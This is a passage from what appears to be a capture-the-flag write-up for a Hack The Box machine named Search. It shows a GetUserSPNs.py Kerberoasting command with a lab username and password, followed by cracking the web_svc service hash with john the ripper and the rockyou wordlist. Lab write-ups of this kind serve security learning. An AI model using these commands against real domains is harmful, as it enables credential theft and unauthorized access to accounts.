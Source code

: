 ![](/assets/img/search/39.png)

to identify Service Principal Names (SPNs) we can use GetUserSPN.py from impacket with prompt:

```bash
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request -dc-ip 10.10.11.129 -outputfile hash
```

![](/assets/img/search/5.png)

we obtain hash from `web_svc` let's crack the hash using john the ripper

```bash
john hash -w=usr/share/wordlists/rockyou.txt
```

![](/assets/img/search/6.png)
